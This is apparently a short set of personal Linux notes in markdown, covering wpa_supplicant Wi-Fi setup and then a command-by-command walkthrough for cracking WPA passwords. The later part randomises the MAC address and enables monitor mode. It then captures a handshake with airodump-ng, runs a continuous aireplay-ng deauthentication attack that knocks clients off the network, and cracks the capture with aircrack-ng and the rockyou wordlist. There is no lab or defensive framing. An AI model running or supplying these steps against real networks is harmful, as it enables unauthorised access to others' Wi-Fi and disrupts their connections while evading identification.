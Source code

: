 [[LINUX]]
# wlan

## adding wlan interface and configuring
```
cp /etc/wpa_supplicant/wpa_supplicamt.conf /etc/wpa_supplicant/wpa_supplicant-<DEVICE>.conf

sudo ip link set up <INTERFACE_NAME>

wpa_passphrase <MYSSID> <KEY> >> /etc/wpa_supplicant/wpa_supplicant-<DEVICE_NAME>.conf

sudo wpa_supplicant -B -i <DEVICE> -c /etc/wpa_supplicant/wpa_supplicant-DEVICE.conf
```

## checking for other wifi signals
### wavemon


### airodump-ng
- install `aircrack-ng`

- put wifi interface in monitor mode:
  ```
  ifconfig WLAN down
  macchanger -r WLAN
  iwconfig WLAN mode monitor
  ifconfig WLAN up
  ```
  **OR**
  `airmon-ng start WLAN`
  
- now monitor the wifi signals 
  `airodump-ng WLAN`

## catch the handshake
open two terminals.  
- start airmon-ng on the 1st
  `airodump-ng WLAN --bssid BSSID -c CHANNEL --write FILENAME`  

- start aireplay-ng on the second in order to deauthenticate the client, forcing
  it to reconnect and retrieving the handshake as a consequence.
  `aireplay-ng --deauth 0 -a BSSID -c CLIENT WLAN`

## crack the password
`aircrack-ng FILENAME -w /usr/share/wordlist/rockyou.txt`
